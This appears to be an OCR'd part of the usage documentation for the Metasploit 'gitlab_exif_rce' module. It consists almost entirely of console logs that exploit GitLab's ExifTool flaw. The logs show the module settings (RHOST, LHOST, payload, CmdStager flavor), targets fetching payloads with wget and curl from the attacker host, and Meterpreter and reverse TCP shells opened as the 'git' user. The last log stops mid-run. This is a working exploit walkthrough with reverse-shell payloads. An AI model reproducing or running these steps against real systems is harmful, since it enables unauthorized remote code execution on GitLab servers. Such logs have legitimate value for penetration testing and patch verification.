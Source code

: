 ```
[*] Uploading S6uji8z.jpg to /6eKwYEoQ2O
[*] Client 10.0.0.7 (Wget/1.17.1 (linux-gnu)) requested /agqzWrd49OBxPkC
[*] Sending payload to 10.0.0.7 (Wget/1.17.1 (linux-gnu))
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.7:53056 ) at 2021-11-02 01:27:22 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: git
meterpreter > shell
Process 6936 created.
Channel 1 created.
whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

Similar to above, but using `curl` instead:

```
msf exploit(multi/http/gitlab_exif_rce) > run

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/Iy9pWshQ8gakRvP
[*] Local IP: http://10.0.0.9:8080/Iy9pWshQ8gakRvP
[*] Uploading MMNlv9v.jpg to /hZXc5H1
[*] Client 10.0.0.7 (curl/7.74.0-DEV) requested /Iy9pWshQ8gakRvP
[*] Sending payload to 10.0.0.7 (curl/7.74.0-DEV)
[*] Meterpreter session 6 opened (10.0.0.9:4444 -> 10.0.0.7:50850 ) at 2021-11-02 11:51:42 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter >
```

### GitLab 13.10.2 on CentOS 8. Get reverse shell using printf / reverse_tcp

```
msf > use exploits/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(multi/http/gitlab_exif_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(multi/http/gitlab_exif_rce) > set CmdStager::Flavor printf
CmdStager::Flavor => printf
msf exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading W1tHrzXkK.jpg to /mopoTKJq
[+] The target is vulnerable. The error response indicates ExifTool was executed.
[*] Executing Linux Dropper for linux/x86/shell/reverse_tcp
[*] Uploading aVTK6SM33.jpg to /NySTvN3J
[+] Exploit successfully executed.
[*] Command Stager progress -  17.76% done (143/805 bytes)
```